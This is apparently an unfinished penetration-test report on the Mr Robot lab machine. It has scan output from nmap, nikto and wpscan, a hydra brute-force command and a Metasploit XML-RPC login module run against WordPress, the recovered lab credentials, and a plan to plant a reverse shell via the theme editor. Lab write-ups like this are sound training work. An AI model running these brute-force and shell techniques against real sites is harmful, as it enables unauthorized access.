


# Penetration Test Report
## Lab Penetration Test Report

Version 1.0  
05.09.2022

TheDeveloo 

# Table of Contents

  - [Introduction](mr-robot-1.md#introduction)
  - [Objective](mr-robot-1.md#objective)
  - [Requirements](mr-robot-1.md#requirements)
  - [High-Level Summary](mr-robot-1.md#high-level-summary)
    - [Recommendations](mr-robot-1.md#recommendations)
  - [Methodology](mr-robot-1.md#methodology)
  - [Reporting](mr-robot-1.md#reporting)
  - [Information Gathering](mr-robot-1.md#information-gathering)
  - [Penetration Test](mr-robot-1.md#penetration-test)
    - [Summary](mr-robot-1.md#summary)
    - [Kill Chain - Phase 1](mr-robot-1.md#kill-chain--phase-1)
    - [Kill Chain - Phase 2](mr-robot-1.md#kill-chain--phase-2)
    - [Exploits/Vulnerabilities & Recommendations](mr-robot-1.md#exploitsvulnerabilities--recommendations)
    - [References](mr-robot-1.md#references)
  - [Maintaining Access](mr-robot-1.md#maintaining-access)
  - [House Cleaning](mr-robot-1.md#house-cleaning)
  - [Appendices](mr-robot-1.md#appendices)

# Introduction
# Objective
# Requirements

# High-Level Summary
## Recommendations
  - Update WordPress
  - Set brute force prevention

# Methodology
The methodology used in this engagement followed a robust penetration testing methodology based on the Cyber Kill Chain to enumerate and exploit each host.  
This report details each step …  

The methodology is as follows:
  - Reconnaissance
  - Weaponisation
  - Delivery
  - Exploit
  - Privilege Escalation
  - Action on Objectives

### Reconnaissance
The start of every engagement begins with performing reconnaissance on each target.  
The goals are:

  - Identify open ports
  - Identity service versions
  - Identity software installed
  - Look for data that should not be available

Tools and techniques used in this stage include:

  - nmap
  - nikto
  - dirb
  - burpsuite
  - firefox
  - wpscan

### Weaponisation
This stage of the Kill Chain is performed once enough is known about the target from the reconnaissance stage to:

  - Gain unauthorized access 

Tools and techniques used in this stage include:

  - hydra

### Delivery
This stage of the attack involves delivering:
  - reserve shell script through WordPress template editor

Tools and techniques used in this stage of the attack include:

  - WordPress
### Exploit
This stage of the attack is where a vulnerability in an application …  
Tools and techniques used in this stage of the attack include

  - reverse shell

### Privilege Escalation
This stage of the attack involves escalation privilege to a …  
Tools and techniques used in this stage of the attack include …
### Action on Objectives
This stage of the attack typically occurs only after fully compromising a …  
Tools and techniques used in this stage of the attack include c…
## Reporting
In the Penetration Test section of the report, each host has been separated into its own section, with a summary, Kill Chain report detailing each step, and some recommendations. This way of organising the report will allow system administrators to ….

# Information Gathering

## Resume

| Protocol | Port | State | Product      | Reason  | Name | Version |
|----------|------|-------|--------------|---------|------|---------|
| tcp      | 80   | open  | Apache httpd | syn-ack | http |         |
| tcp      | 443  | open  | Apache httpd | syn-ack | http |         |

### Loot
| Type       | Information                             | Gathered                     |
|------------|-----------------------------------------|------------------------------|
| Software   | Wordpress 4.3.1                         | /wp-links-opml.php           |
| Flag       | [key-1-of-3.txt](./loot/key-1-of-3.txt) | /robots.txt                  |
| Dictionary | [fsocity.dic](./loot/fsocity.dic)       | /robots.txt                  |

## Raw information
### nmap

    ┌──(kali㉿kali)-[~]
    └─$ nmap -p- -sV -T4 192.168.56.105
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-04 06:06 EDT
    Nmap scan report for 192.168.56.105
    Host is up (0.013s latency).
    Not shown: 65533 filtered tcp ports (no-response)
    PORT    STATE SERVICE  VERSION
    80/tcp  open  http     Apache httpd
    443/tcp open  ssl/http Apache httpd
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 945.64 seconds

### nikto

    ┌──(kali㉿kali)-[~]
    └─$ nikto -h http://192.168.56.105:80 -o '/kali-share/nikto-mrrobot-80.xml' -Format xml
    - Nikto v2.1.6
    ---------------------------------------------------------------------------
    + Target IP:          192.168.56.105
    + Target Hostname:    192.168.56.105
    + Target Port:        80
    + Start Time:         2022-09-04 06:13:12 (GMT-4)
    ---------------------------------------------------------------------------
    + Server: Apache
    + The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
    + The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
    + Retrieved x-powered-by header: PHP/5.5.29
    + No CGI Directories found (use '-C all' to force check all possible dirs)
    + Uncommon header 'tcn' found, with contents: list
    + Apache mod_negotiation is enabled with MultiViews, which allows attackers to easily brute force file names. See http://www.wisec.it/sectou.php?id=4698ebdc59d15. The following alternatives for 'index' were found: index.html, index.php
    + OSVDB-3092: /admin/: This might be interesting...
    + OSVDB-3092: /readme: This might be interesting...
    + Uncommon header 'link' found, with contents: <http://192.168.56.105/?p=23>; rel=shortlink
    + /wp-links-opml.php: This WordPress script reveals the installed version.
    + OSVDB-3092: /license.txt: License file found may identify site software.
    + /admin/index.html: Admin login page/section found.
    + Cookie wordpress_test_cookie created without the httponly flag
    + /wp-login/: Admin login page/section found.
    + /wordpress: A Wordpress installation was found.
    + /wp-admin/wp-login.php: Wordpress login found
    + /wordpresswp-admin/wp-login.php: Wordpress login found
    + /blog/wp-login.php: Wordpress login found
    + /wp-login.php: Wordpress login found
    + /wordpresswp-login.php: Wordpress login found
    + 7919 requests: 0 error(s) and 19 item(s) reported on remote host
    + End Time:           2022-09-04 06:22:33 (GMT-4) (561 seconds)
    ---------------------------------------------------------------------------
    + 1 host(s) tested

### dirb

See [dirb.txt](./shell/dirb.txt)

### wpscan

    ┌──(kali㉿kali)-[~]
    └─$ wpscan --url http://192.168.56.105
    _______________________________________________________________
             __          _______   _____
             \ \        / /  __ \ / ____|
              \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
               \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
                \  /\  /  | |     ____) | (__| (_| | | | |
                 \/  \/   |_|    |_____/ \___|\__,_|_| |_|
    
             WordPress Security Scanner by the WPScan Team
                             Version 3.8.22
                                   
           @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
    _______________________________________________________________
    
    [i] Updating the Database ...
    [i] Update completed.
    
    [+] URL: http://192.168.56.105/ [192.168.56.105]
    [+] Started: Sun Sep  4 13:07:31 2022
    
    Interesting Finding(s):
    
    [+] Headers
    | Interesting Entries:
    |  - Server: Apache
    |  - X-Mod-Pagespeed: 1.9.32.3-4523
    | Found By: Headers (Passive Detection)
    | Confidence: 100%
    
    [+] robots.txt found: http://192.168.56.105/robots.txt
    | Found By: Robots Txt (Aggressive Detection)
    | Confidence: 100%
    
    [+] XML-RPC seems to be enabled: http://192.168.56.105/xmlrpc.php
    | Found By: Direct Access (Aggressive Detection)
    | Confidence: 100%
    | References:
    |  - http://codex.wordpress.org/XML-RPC_Pingback_API
    |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
    |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
    |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
    |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/
    
    [+] The external WP-Cron seems to be enabled: http://192.168.56.105/wp-cron.php
    | Found By: Direct Access (Aggressive Detection)
    | Confidence: 60%
    | References:
    |  - https://www.iplocation.net/defend-wordpress-from-ddos
    |  - https://github.com/wpscanteam/wpscan/issues/1299
    
    [+] WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).
    | Found By: Emoji Settings (Passive Detection)
    |  - http://192.168.56.105/cc0b1d8.html, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=4.3.1'
    | Confirmed By: Meta Generator (Passive Detection)
    |  - http://192.168.56.105/cc0b1d8.html, Match: 'WordPress 4.3.1'
    
    [+] WordPress theme in use: twentyfifteen
    | Location: http://192.168.56.105/wp-content/themes/twentyfifteen/
    | Last Updated: 2022-05-24T00:00:00.000Z
    | Readme: http://192.168.56.105/wp-content/themes/twentyfifteen/readme.txt
    | [!] The version is out of date, the latest version is 3.2
    | Style URL: http://192.168.56.105/wp-content/themes/twentyfifteen/style.css?ver=4.3.1
    | Style Name: Twenty Fifteen
    | Style URI: https://wordpress.org/themes/twentyfifteen/
    | Description: Our 2015 default theme is clean, blog-focused, and designed for clarity. Twenty Fifteen's simple, st...
    | Author: the WordPress team
    | Author URI: https://wordpress.org/
    |
    | Found By: Css Style In 404 Page (Passive Detection)
    |
    | Version: 1.3 (80% confidence)
    | Found By: Style (Passive Detection)
    |  - http://192.168.56.105/wp-content/themes/twentyfifteen/style.css?ver=4.3.1, Match: 'Version: 1.3'
    
    [+] Enumerating All Plugins (via Passive Methods)
    
    [i] No plugins Found.
    
    [+] Enumerating Config Backups (via Passive and Aggressive Methods)
    Checking Config Backups - Time: 00:00:01 <===============================================================> (137 / 137) 100.00% Time: 00:00:01
    
    [i] No Config Backups Found.
    
    [!] No WPScan API Token given, as a result vulnerability data has not been output.
    [!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register
    
    [+] Finished: Sun Sep  4 13:07:36 2022
    [+] Requests Done: 189
    [+] Cached Requests: 6
    [+] Data Sent: 45.812 KB
    [+] Data Received: 19.017 MB
    [+] Memory used: 238.633 MB
    [+] Elapsed time: 00:00:04

### TCN Header

### /wp-links-opml.php

Reveals Wordpress 4.3.1

    
<link rel="stylesheet" href="chrome://global/content/xml/XMLPrettyPrint.css" />

              This XML file does not appear to have any style information associated with it. The document tree is shown below.
            

<main id="tree" class="highlight">

&lt;opml version="1.0"&gt;

&lt;head&gt;

&lt;title&gt;Links for user's Blog!&lt;/title&gt;

&lt;dateCreated&gt;Sun, 04 Sep 2022 12:30:41 GMT&lt;/dateCreated&gt;

&lt;!-- generator="WordPress/4.3.1" --&gt;

&lt;/head&gt;

&lt;body&gt;
    &lt;/body&gt;

&lt;/opml&gt;
</main>

### license.txt

    what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?

### readme

    <html><head></head><body>I like where you head is at. However I'm not going to help you.
    </body></html>

### http://192.168.56.105/?p=23

### http://192.168.56.105/wp-login

Wordpress login page

### http://192.168.56.105/0/

Blog found

### robots.txt
#### http://192.168.56.105/admin/robots.txt

    # robotstxt.org/
    
    User-agent: *
    Disallow:

#### http://192.168.56.105/robots.txt

    User-agent: *
    fsocity.dic
    key-1-of-3.txt

### http://192.168.56.105/fsocity.dic  
This file is a dictionary  

    ┌──(kali㉿kali)-[~]
    └─$ wc -l /kali-share/downloads/fsocity.dic
    858160 /kali-share/downloads/fsocity.dic

Try to reduce the size of the dictionary
  - https://fr.manpages.org/uniq

    cat fsocity.dic | sort | uniq > fsociety_filtered.txt

Result

    ┌──(kali㉿kali)-[~]
    └─$ wc -l fsociety_filtered.txt            
    11451 fsociety_filtered.txt

### http://192.168.56.105/key-1-of-3.txt

    073403c8a58a1f80d943455fb30724b9

### http://192.168.56.105/phpmyadmin

Content

    For security reasons, this URL is only accessible using localhost (127.0.0.1) as the hostname.

Try fake hostname

    ┌──(kali㉿kali)-[~]
    └─$ curl --resolve 192.168.56.105:80:127.0.0.1 http://192.168.56.105/phpmyadmin
    curl: (7) Failed to connect to 192.168.56.105 port 80 after 0 ms: Connection refused

### WordPress Pingback Access

# Penetration Test
| Key                     | Value                                          |
|-------------------------|------------------------------------------------|
| Hostname                | MrRobot                                        |
| IP Address              | 192.168.56.105                                 |
| Operating System        | Debian                                         |
| Ports Open              | 80, 443                                        |
| Services & Applications | - Wordpress                                    |
| Credentials             | - WP User: `Elliot` - WP Pass: `ER28-0652` |
| Proof                   |                                                |

## Summary

| What worked?                                                   | What didn’t work? |
|----------------------------------------------------------------|-------------------|
| - WordPress pingback access - Brute force on /wp-login.php | - dirb scan       |

## Kill Chain – Phase 1

### Reconnaissance

  - Found `/wp-login.php` with nikto
  - Found `/fsocity.dic` in robots.txt
    - Filtered dictionary create fsociety-filtered.txt

### Weaponisation

#### Brute force

    ┌──(kali㉿kali)-[~]
    └─$ hydra -L /kali-share/downloads/fsocity.dic -p test 192.168.56.105 http-form-post "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.105%2Fwp-admin%2F&testcookie=1:Invalid username"
    Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
    
    Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-09-04 10:17:23
    [DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
    [DATA] attacking http-post-form://192.168.56.105:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.105%2Fwp-admin%2F&testcookie=1:Invalid username
    [80][http-post-form] host: 192.168.56.105   login: Elliot   password: test
    [80][http-post-form] host: 192.168.56.105   login: elliot   password: test
    [80][http-post-form] host: 192.168.56.105   login: ELLIOT   password: test
    ^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.

#### XML-RPC Username/Password Login Scanner

https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/

    msfconsole
    use use auxiliary/scanner/http/wordpress_xmlrpc_login
    set RHOSTS 192.168.56.105
    set USERNAME Elliot
    set PASS_FILE ~/fsociety-filtered.txt

Result

    [+] 192.168.56.105:80 - Success: 'Elliot:ER28-0652'
    [*] Scanned 1 of 1 hosts (100% complete)
    [*] Auxiliary module execution completed
    msf6 auxiliary(scanner/http/wordpress_xmlrpc_login) >

#### Loot

| Type       | Information                                                               | Gathered                     |
|------------|---------------------------------------------------------------------------|------------------------------|
| Credential | Wordpress:   - `Elliot`:`ER28-0652`   - `elliot`   - `ELLIOT` | Brute force on /wp-login.php |

### Exploit

Login using:
  - Username: `Elliot`
  - Password: `ER28-0652`

## Kill Chain – Phase 2

### Reconnaissance
#### XSS
Create page with a script, maybe we can create a reverse shell

Yes, we can... ...but not so useful

#### WordPress Plugins

#### WordPress Users

#### WordPress template editor
This WordPress allows users to edit php files of the template

We should be able to insert a reverse shell  
https://github.com/nisforrnicholas/WordPress-Theme-Editor-Exploit

### Weaponisation
### Delivery
### Privilege Escalation
### Action on Objectives

## Exploits/Vulnerabilities & Recommendations
| Severity | Exploit/Vulnerability | Description                                                                                                          | Recommendation                                         |
|----------|-----------------------|----------------------------------------------------------------------------------------------------------------------|--------------------------------------------------------|
| Critical | Outdated software     | WordPress version 4.3.1 identified (Insecure, released on 2015-09-15).                                               | Update WordPress to the most recent version            |
| Critical | Brute forcing         | Usage of brute forcing is possible on /wp-login.php                                                                  | Block user/ip after a certain amount of login attempts |
| High     | Source available      | The source of the site can be downloaded on /admin/robot This file could give more information to the attackers | Remove the zipped file                                 |

## References
  - https://portswigger.net/burp/documentation/desktop/functions/burps-browser#:~:text=To%20launch%20Burp's%20browser%2C%20go,is%20automatically%20proxied%20through%20Burp.
  - http://insidetrust.blogspot.com/2011/08/using-hydra-to-dictionary-attack-web.html
  - https://www.systranbox.com/how-to-install-brute-force-in-kali-linux/
  - https://blog.techorganic.com/2014/07/15/hell-hacking-challenge/
  - https://wpscan.com/wordpress/431
  - http://codex.wordpress.org/XML-RPC_Pingback_API
  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/
  - https://github.com/nisforrnicholas/WordPress-Theme-Editor-Exploit
  - https://linuxconfig.org/use-wpscan-to-scan-wordpress-for-vulnerabilities-on-kali

# Maintaining Access
On each host that was compromised, …
# House Cleaning
Once we had completely compromised a host, …
# Appendices

